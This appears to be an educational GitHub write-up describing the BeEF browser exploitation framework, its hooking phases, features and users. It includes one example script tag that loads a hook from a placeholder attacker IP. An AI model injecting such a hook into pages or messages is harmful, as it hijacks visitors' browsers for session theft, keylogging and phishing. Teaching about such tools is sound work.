 # BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers' vulnerabilities. BeEF which is the short term of Browser Exploitation Framework, initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers [3][3]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [3][3]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [4]. 
```javascript
<script src="http://{ATTACKER’S IP}:3000/hook.js"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does It Work?
When the attacker starts BeEF, the User Interface and Communication Server are started.

![alt text](https://github.com/yazan828/Test/blob/main/BeEFUI.PNG "BeEF User Interface")

The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface. BeEF offers a variety set of features such as [5][5],[6][6]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](https://github.com/yazan828/Test/blob/main/Command.PNG "Various BeEF Commands")

![alt text](https://github.com/yazan828/Test/blob/main/Diagram.png "BeEF Attack Scenario [5]")

The figure above demonstrates an overview of a client attack using BeEF by injecting the script into the hook and forwarding it to the target. 
## Who Uses BeEF & Why Is It Useful?
The primary purpose of BeEF is to allow qualified penetration testers to evaluate the security measures of web browsers and examine exploitability by simulating the attacks. However, BeEF is also used by hackers who are either targeting specific victims or spreading hooks through the network to gather sensitive information without consent. Plus, BeEF is continuously being used for educational purposes due to its simplicity and strong capability [3][3]. 


[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[4]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[5]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[6]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
